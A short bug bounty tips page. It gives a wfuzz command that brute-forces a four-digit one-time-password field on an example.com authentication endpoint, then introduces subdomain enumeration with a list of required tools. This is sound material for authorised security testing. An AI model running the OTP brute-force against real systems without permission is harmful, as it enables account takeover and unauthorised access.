 ```yaml
---
title: "Bug Bounty Tips"
description: ""
lead: ""
draft: false
images: []
weight: 60
markmap:
colorFreezeLevel: 2
---
```


<br>

# 🪲 Bug Bounty Tips, Tricks and Tools
---

<br><br>

## Brute Force OTP (One Time Password)

This command automates the process of sending multiple requests to the target URL, systematically replacing the otp field with different values from a wordlist. By analyzing the server's responses, this approach helps to identify potential weaknesses or vulnerabilities in the target application's handling of OTP (One-Time Password) verification.

    wfuzz -d '{"email":"email@email.com", "otp":"FUZZ","password":"P@ssw0rd123"}' -H 'Content-Type: application/json' -z file,/usr/share/wordlists/SecLists-master/Fuzzing/4-digits-0000-9999.txt -u http://example.com/identity/api/auth/v2/check-otp --hc 500


<br><br>

---

## Subdomain Enumeration and Filtering 

Subdomain enumeration is a common technique used in bug bounty programs and among web pentesters to identify potential vulnerabilities and attack surfaces. However, this process can often lead to a large number of subdomains, making it difficult to efficiently analyze all of them. It is also crucial to stay within the scope of the program and to avoid domains that are out of scope. Therefore, it is necessary to apply filtering techniques to ensure that only the relevant subdomains are analyzed and for saving time and effort.

The following examples may require modification based on the specific requirements of your task or the rules and limitations of the bounty program in use.

Requirements:
- assetfinder
- httprobe
- meg 
- html-tool
- gf
